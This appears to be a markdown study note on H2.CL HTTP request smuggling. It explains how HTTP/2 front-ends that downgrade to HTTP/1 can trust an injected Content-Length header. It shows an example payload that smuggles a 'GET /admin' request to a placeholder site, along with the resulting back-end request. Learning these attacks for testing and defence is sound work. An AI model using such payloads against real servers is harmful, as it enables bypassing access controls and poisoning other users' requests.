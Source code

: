 ![HTTP/2 to 1](../images/http2-http1-mapping.jpg)

### H2.CL vulnerabilities

- front-end use HTTP/2 length to determine where the request ends but the HTTP/1 back-end has to refer to the Content-Length header derived from the injected one, resulting in a desync
- HTTP/2 requests don't have to specify their length explicitly in a header
- during downgrading, front-end servers often add an HTTP/1 `Content-Length` header, deriving its value using HTTP/2 build-in length mechanism and some front-end servers will reuse this value in the resulting HTTP/1 request
- any `Content-Length` header in a HTTP/2 request must match the length calculated using the built-in mechanism but this isn't always validated properly before downgrading; it may be possible to smuggle requests by injecting a misleading Content-Length header

- eg

  - Front-end (HTTP/2)

  ```
  :method         POST
  :path           /example
  :authority      vulnerable-website.com
  content-type    application/x-www-form-urlencoded
  content-length  0
  GET /admin HTTP/1.1
  Host: vulnerable-website.com
  Content-Length: 10

  x=1
  ```

  - Back-end(HTTP/1)

  ```
  POST /example HTTP/1.1
  Host: vulnerable-website.com
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 0

  GET /admin HTTP/1.1
  Host: vulnerable-website.com
  Content-Length: 0

  x=1
  ```
